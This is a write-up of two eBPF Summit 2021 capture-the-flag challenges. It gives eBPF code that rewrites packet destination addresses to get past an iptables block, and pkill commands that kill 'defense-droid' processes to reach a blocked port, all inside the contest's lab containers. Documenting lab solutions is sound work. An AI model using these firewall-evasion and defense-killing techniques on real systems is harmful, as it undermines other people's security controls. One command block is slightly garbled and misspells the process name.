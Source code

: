 # eBPF-ctf2021
https://ebpf.io/summit-2021/ctf/

---
# CTF1

need to edit /bpf/bpf.c to make it rewrite your packet after iptables has run, and we need to target a different ip to spoof around the block. We copied the code from the completed ingress function, then changed the saddr > daddr etc, then we changed the dest IP to x.x.1.1. We can then `make && make run` you can add the new code after the todo section in original file. now we can run `echo | netcat -u 100.202.1.3 1138` for the answer.

### new code to add
```
    __u32 new_daddr = 0x0101ca64; /* 100.202.1.1 */
    sum = bpf_csum_diff(&ip->daddr, 4, &new_daddr, 4, 0);

    ret = bpf_skb_store_bytes(skb, l3_off + offsetof(struct iphdr, daddr), &new_daddr, 4, 0);
    if (ret < 0)
           return TC_ACT_SHOT;

    if (bpf_l3_csum_replace(skb, l3_off + offsetof(struct iphdr, check), 0, sum, 0) < 0)
           return TC_ACT_SHOT;
```

### original bpf.c
```javascript=
// SPDX-License-Identifier: (GPL-2.0 OR MIT)
/* Copyright (C) 2021 Isovalent */

#include <linux/bpf.h>
#include <linux/ip.h>
#include <linux/in.h>

#include "bpf_helpers.h"

#define TC_ACT_OK       0
#define TC_ACT_SHOT     2

SEC("egress")
int _egress(struct __sk_buff *skb) {
    struct iphdr *ip;
    int l3_len = sizeof(*ip);
    int l3_off = 0;
    void *data_end;
    void *data;
    __be32 sum;
    int ret = 0;

    bpf_skb_pull_data(skb, l3_off + l3_len);
    data_end = (void *)(long)skb->data_end;
    data = (void *)(long)skb->data;
    if (data + l3_off + l3_len > data_end)
            return TC_ACT_OK;

    ip = data + l3_off;

    if (ip->protocol != IPPROTO_UDP)
            return TC_ACT_OK;

    if (ip->daddr != 0x0301ca64) /* 100.202.1.3 */
            return TC_ACT_OK;

    if (ip->saddr != 0x0201ca64) /* 100.202.1.2 */
            return TC_ACT_OK;

    bpf_printk("Sending request. Now do something with it...\n");

    /* TODO solution */

    return TC_ACT_OK;
}

/* NOTE: ingress is complete and it does not need any changes */
SEC("ingress")
int _ingress(struct __sk_buff *skb) {
    struct iphdr *ip;
    int l3_len = sizeof(*ip);
    int l3_off = 0; /* wg0 is L3 device */
    void *data_end;
    void *data;
    __be32 sum;
    int ret = 0;

    bpf_skb_pull_data(skb, l3_off + l3_len);
    data_end = (void *)(long)skb->data_end;
    data = (void *)(long)skb->data;
    if (data + l3_off + l3_len > data_end)
            return TC_ACT_OK;

    ip = data + l3_off;

    if (ip->protocol != IPPROTO_UDP)
            return TC_ACT_OK;

    if (ip->daddr != 0x0201ca64) /* 100.202.1.2 */
            return TC_ACT_OK;

    if (ip->saddr != 0x0101ca64) /* 100.202.1.1 */
            return TC_ACT_OK;

    __u32 new_saddr = 0x0301ca64; /* 100.202.1.3 */
    sum = bpf_csum_diff(&ip->saddr, 4, &new_saddr, 4, 0);

    ret = bpf_skb_store_bytes(skb, l3_off + offsetof(struct iphdr, saddr), &new_saddr, 4, 0);
    if (ret < 0)
           return TC_ACT_SHOT;

    if (bpf_l3_csum_replace(skb, l3_off + offsetof(struct iphdr, check), 0, sum, 0) < 0)
           return TC_ACT_SHOT;

    return TC_ACT_OK;
}

char _license[] SEC("license") = "Dual MIT/GPL";
```

## result

```
root@f0c9813435bd:/bpf# make
clang -O2 -target bpf -idirafter /usr/local/include -idirafter /usr/lib/llvm-11/lib/clang/11.0.1/include -idirafter /usr/include/x86_64-linux-gnu -idirafter /usr/include -c bpf.c -o bpf.o
root@f0c9813435bd:/bpf# make run
tc qdisc replace dev wg0 clsact
tc filter replace dev wg0 ingress prio 1 handle 1 bpf da obj bpf.o sec ingress
tc filter replace dev wg0 egress prio 1 handle 1 bpf da obj bpf.o sec egress
root@f0c9813435bd:/bpf# echo | netcat -u 100.202.1.3 1138
Congrats! The passphrase for the blockade is: Shoni-65425046
```


---
# CTF3

So if we try `curl localhost:1977` as expected connection is dropped.

Next I try `ps -ax` and see thousands of /usr/bin/defense-droid running, pid 1 is /usr/bin/container, pid 11 is /usr/bin/password-server

### cheat
```/usr/bin/password-server :8080 && curl localhost:8080```

## try1
```chmod -x /usr/bin/defence-droid
pkill -f '/usr/bin/defence-droid'
```
<br>container quits
<br>

## try2
```
pkill --signal 19 -f '/usr/bin/defence-droid'
```
<br>nothing happens and port is still blocked.
<br>

## Success
```
pkill --signal 9 -f '/usr/bin/defence-droid && curl localhost:1977'
```

```
root@bc9b845891e1:/# pkill --signal 9 -f '/usr/bin/defense-droid' && curl localhost:1977
2021/08/19 08:16:24 intrusion detected! self-destructing!
Welcome, Imperial Commander! The secret passphrase is: eCHO-33-32-37
root@bc9b845891e1:/#
```

---
